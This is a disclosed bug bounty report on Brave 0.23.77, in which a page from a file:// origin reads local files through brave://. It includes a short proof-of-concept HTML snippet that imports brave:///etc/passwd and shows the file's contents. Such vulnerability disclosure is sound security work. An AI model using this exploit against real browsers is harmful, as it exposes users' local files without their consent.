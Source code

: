 # Local files reading from the "file://" origin through `brave://`

## Report Details
- **Report ID**: 390362
- **URL**: https://hackerone.com/reports/390362
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-03T23:06:57.182Z
- **Disclosed**: 2018-09-29T00:15:51.923Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:

Sadly, fix for #390013 works only for web. Loading `brave://` from the `file://` origin allows reading local files on the device.

> I said that fix could be insufficient 😈

`file://` and `brave://` both are local origins. That means it's possible to access `brave://` from `file://` and vice versa.

## Products affected: 

Brave: 0.23.77 
V8: 6.8.275.24 
rev: 0125b5f5ddc7eebc832ceeb4f4275230ec49d149 
Muon: 8.0.6 
OS Release: 17.7.0 
Update Channel: Релиз 
OS Architecture: x64 
OS Platform: macOS 
Node.js: 7.9.0 
Brave Sync: v1.4.2 
libchromiumcontent: 68.0.3440.84

## Steps To Reproduce:

```html
<head>
    <script>
        function show() {
            var file = link.import.querySelector('body')
            alert(file.innerHTML)
        }
    </script>
    <link id="link" href="brave:///etc/passwd" rel="import" as="document" onload="show()" />
</head>
```
## Supporting Material/References:

Screencast + PoC attached.

## Impact

Local files reading should be denied.

## Attachments
- exploit.html
- brave-read-file-from-file-through-brave.mp4
